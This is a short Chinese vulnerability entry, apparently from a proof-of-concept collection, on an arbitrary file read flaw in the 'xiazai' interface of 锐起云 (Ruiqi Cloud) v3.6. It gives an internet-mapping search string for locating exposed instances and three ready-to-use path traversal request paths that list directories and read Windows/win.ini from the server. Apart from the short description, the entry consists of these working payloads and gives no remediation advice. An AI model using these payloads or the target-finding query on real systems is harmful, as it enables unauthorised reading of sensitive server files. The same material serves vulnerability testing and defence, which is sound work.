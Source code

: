 # 锐起云 xiazai 任意文件读取漏洞

## 漏洞描述

锐起云 xiazai 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件。

## 漏洞影响

锐起云 v3.6

## 网络测绘

```
"锐起云"
```

## 漏洞复现

登陆页面

![image-20231115100316838](images/image-20231115100316838.png)

验证POC

```
/dwr/hret/fileTree?filePath=../
/dwr/srecy/xiazai?filePath=../../../../../../../../../../../Windows/win.ini
/dwr/hret/downfile?fpid=../../../../../../../../../Windows/win.ini 
```

![image-20231115100630776](images/image-20231115100630776.png)